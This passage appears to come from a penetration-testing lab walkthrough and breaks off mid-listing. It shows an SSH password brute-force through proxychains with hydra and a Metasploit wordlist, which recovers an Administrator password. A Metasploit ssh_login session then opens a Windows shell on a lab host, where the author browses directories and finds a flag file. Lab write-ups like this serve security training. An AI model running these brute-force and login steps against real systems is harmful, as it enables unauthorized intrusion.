`cat usernames.txt`:
```
administrator ←
sysadmin
```

**Step 10**.

`proxychains hydra -l Administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo1.ine.local ssh`:
```
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.27.53:22  ...  OK
[22][ssh] host: 10.4.27.53   login: Administrator   password: password1 ←
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-08 22:34:06
```

**Step 11**.

`background`, `search ssh login`, `use auxiliary/scanner/ssh/ssh_login`, `show options`, `set RHOSTS demo1.ine.local`, `set USERNAME Administrator`, `set PASSWORD password1`, `exploit`, `sessions`, `sessions -i 2`:
```
[*] Starting interaction with 2...

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

administrator@ATTACKDEFENSE C:\Users\Administrator>
administrator@ATTACKDEFENSE C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\Users\Administrator

12/31/2021  09:50 AM    <DIR>          .
12/31/2021  09:50 AM    <DIR>          ..
12/31/2021  09:50 AM    <DIR>          Contacts
01/04/2022  03:35 AM    <DIR>          Desktop
12/31/2021  09:50 AM    <DIR>          Documents
01/11/2022  08:31 PM    <DIR>          Downloads
12/31/2021  09:50 AM    <DIR>          Favorites
12/31/2021  09:50 AM    <DIR>          Links
12/31/2021  09:50 AM    <DIR>          Music
12/31/2021  09:50 AM    <DIR>          Pictures
12/31/2021  09:50 AM    <DIR>          Saved Games
12/31/2021  09:50 AM    <DIR>          Searches
12/31/2021  09:50 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)   6,550,564,864 bytes free

administrator@ATTACKDEFENSE C:\Users\Administrator>dir C:\
dir C:\
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\

01/11/2022  08:52 PM                32 FLAG1.txt ←
08/22/2013  03:52 PM    <DIR>          PerfLogs
01/11/2022  08:31 PM    <DIR>          Program Files
01/04/2022  04:24 AM    <DIR>          Program Files (x86)
```